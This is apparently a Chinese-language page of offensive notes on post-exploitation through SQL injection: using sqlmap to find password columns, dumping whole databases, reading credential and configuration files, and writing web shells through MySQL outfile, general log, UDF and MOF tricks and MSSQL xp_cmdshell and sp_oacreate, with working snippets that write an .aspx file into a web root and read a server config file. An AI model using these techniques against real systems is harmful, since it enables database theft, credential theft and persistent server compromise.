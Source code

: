 ```SELECT p.*, pac.all_cities FROM {p}_page AS p left join {p}_page_all_cities pac on p.page_id=pac.page_id and p.lang=pac.lang left join {p}_page_all_provinces pap  on p.page_id=pap.page_id and p.lang=pap.lang WHERE p.[lang] = N'2' AND p.[hidden] = N'0' AND p.[parent_id] =14  And ( p.[title] like N'%sql%' )  And (p.[pri4]=N'1' Or p.[pri5]=N'1' Or p.[pri6]=N'1' Or p.[sec1]=N'1' Or p.[sec2]=N'1' Or p.[sec3]=N'1' Or p.[sec4]=N'1' Or p.[sec5]=N'1' Or p.[sec6]=N'1')  And ( wholeyear=N'1'  Or year1m9=N'1' Or  wholeyear=N'1'  Or year2m1=N'1')  ORDER BY  wholeyear```


## 快速定位重要的数据表

大型数据库中有上百个表，如何快速定位？

使用sqlmap中的 ```--search```参数，可以用来搜索列、表、数据库名称。

使用方法：
- ```--search -D:数据库名```
- ```--search -T:表名```
- ```--search -C:字段名```

例如搜索字段：username，password等。

## 脱库

一般方式是脱出数据文件，例如：mysql自带的mysqldump就可以用来获取文件。

如果是站库分离的系统，可以上传 mysqldump，指定参数```-h```的主机地址也可以实现数据库文件。

mssql可以获取mdf文件或使用osql命令。

## 注入读写文件

>以下需要事先获得可读写的远程主机路径

当我们注入不能获得进一步内容时，可以考虑读写文件。

读写文件很多情况下都需要用到堆叠语句，MySQL中如果用的是mysqli。并不是所有情况都支持堆叠语句，例如：
- 部分 pdo处理可以堆叠；
- mssql + aspx 是原生堆叠；
- Oracle 是否支持堆叠，依赖于代码层面的实现。


MySQL读文件值得一提的就是load data infile和load data local infile，不受secure-file-priv的限制，但是需要堆叠，或者你也可以找找phpmyadmin，phpmyadmin的话还受到open_basedir限制。通过注入拓展任意文件读取，也算一种思路吧。如果你是mysql低权限账户可以试着读一下user.MYD，万一读到root密码呢？
至于load data local infile的权限问题一直是一个谜，我理解的他的权限应该是和MySQL的权限一样的，因为碰到了一次读不到apache用户www目录下的源码，MySQL用户和apache权限不一样。但是其实我自己都不是很确定，希望有师傅看到了指点一下。
MySQL写文件的话into outfile、into dumpfile还有就是日志写文件general log，绝对路径写shell，插件写udf，写mof。
mssql的话读写文件的操作更多样化一些。

列目录```xp_dirtree```、```xp_subdirs```

写文件```xp_cmdshell 'echo 1 > c:/1.txt'```、```sp_oacreate```、```sp_oamethod``` 配合写shell

```
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:/www/1.aspx', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'this is shell';
```

或者出网的话直接写一个vbs下载器，随意发挥。

读文件的话
```
USE test;
DROP TABLE cmd;
CREATE TABLE cmd ( a text );
BULK INSERT cmd FROM 'd:/config.aspx' WITH (FIELDTERMINATOR = 'n',ROWTERMINATOR = 'nn')
SELECT  * FROM  cmd
```

```